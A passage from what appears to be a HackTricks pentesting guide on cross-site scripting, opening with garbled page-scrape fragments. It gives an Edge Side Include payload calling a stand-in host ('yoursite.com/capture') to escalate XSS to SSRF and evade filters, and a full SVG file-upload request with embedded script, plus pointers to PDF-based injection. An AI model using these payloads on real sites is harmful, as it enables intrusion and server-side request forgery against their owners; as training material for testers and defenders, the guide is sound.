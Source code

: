">

\<p title="![](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/pentesting-web/xss-cross-site-scripting/x)">

">

````
### Brute-Force List

{% embed url="https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/xss.txt" %}

## XSS Abusing other vulnerabilities

### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```python
<esi:include src="http://yoursite.com/capture" />
````

Use it to bypass cookie restrictions, XSS filters and much more!\
More information about this technique here: [**XSLT**](xslt-server-side-injection-extensible-stylesheet-languaje-transformations).

### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.\
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

{% content-ref url="xss-cross-site-scripting/server-side-xss-dynamic-pdf" %}
[server-side-xss-dynamic-pdf](xss-cross-site-scripting/server-side-xss-dynamic-pdf)
{% endcontent-ref %}

If you cannot inject HTML tags it could be worth it to try to **inject PDF data**:

{% content-ref url="xss-cross-site-scripting/pdf-injection" %}
[pdf-injection](xss-cross-site-scripting/pdf-injection)
{% endcontent-ref %}

### XSS uploading files (svg)

Upload as an image a file like the following one (from [http://ghostlulz.com/xss-svg/](http://ghostlulz.com/xss-svg/)):

```markup
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
-----------------------------232181429808--
```
